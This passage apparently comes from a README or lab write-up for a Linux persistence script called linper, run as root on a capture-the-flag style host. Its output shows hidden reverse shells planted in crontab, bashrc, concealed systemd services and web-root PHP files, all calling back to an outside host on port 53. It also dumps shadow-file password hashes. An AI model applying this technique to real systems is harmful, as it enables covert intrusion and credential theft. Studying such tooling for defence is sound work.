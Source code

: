 ```
        RX packets 242  bytes 19524 (19.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 242  bytes 19524 (19.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Using linper to set persistence on port 53.

```
root@agent-sudo:/root# bash ~/linper.sh 
[+] Bash reverse shell loaded in crontab
[+] Python3 reverse shell loaded in crontab
[+] Netcat reverse shell loaded in crontab
[+] Bash reverse shell loaded in root's bashrc
[+] Python3 reverse shell loaded in root's bashrc
[+] Netcat reverse shell loaded in root's bashrc
[+] Bash reverse shell installed as a service at /etc/systemd/system/.gtlGr3zncL.service
[+] Python3 reverse shell installed as a service at /etc/systemd/system/.vAjAKTAMLA.service
[+] Netcat reverse shell installed as a service at /etc/systemd/system/.YiomiuJAdA.service
[+] PHP reverse shell placed in /var/www/.hVWoUXtLuO.php
[+] PHP reverse shell placed in /var/www/html/.IhhVvww4n2.php
[+] Users with passwords from the shadow file
james:$6$8U2jtYXx$SgRyvDg2.rjtdQlWohWi0cMgzbJdr0..uGIW3AnUHUQM/l/NfwQBc5o7TQU7N.jmR5tAZvdy9mOmvv8Typ6X20:18198:0:99999:7:::
chris:$6$uuDBd3ZM$LD65lLDXGtbIZqI0fadKxZsTjYg1n8j4VZi0.9O6rNKsxrFwESDTmgGFcyXOnlmx3JL2aW9yqn1TziC0qAePQ/:18198:0:99999:7:::

[+] All shells call back to 10.2.14.14:53
```

Got a proper root shell
```
root@agent-sudo:~# id;hostname;ip addr
id;hostname;ip addr
uid=0(root) gid=0(root) groups=0(root)
agent-sudo
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:48:6e:9e:c7:8a brd ff:ff:ff:ff:ff:ff
    inet 10.10.47.229/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3476sec preferred_lft 3476sec
    inet6 fe80::48:6eff:fe9e:c78a/64 scope link 
       valid_lft forever preferred_lft forever
```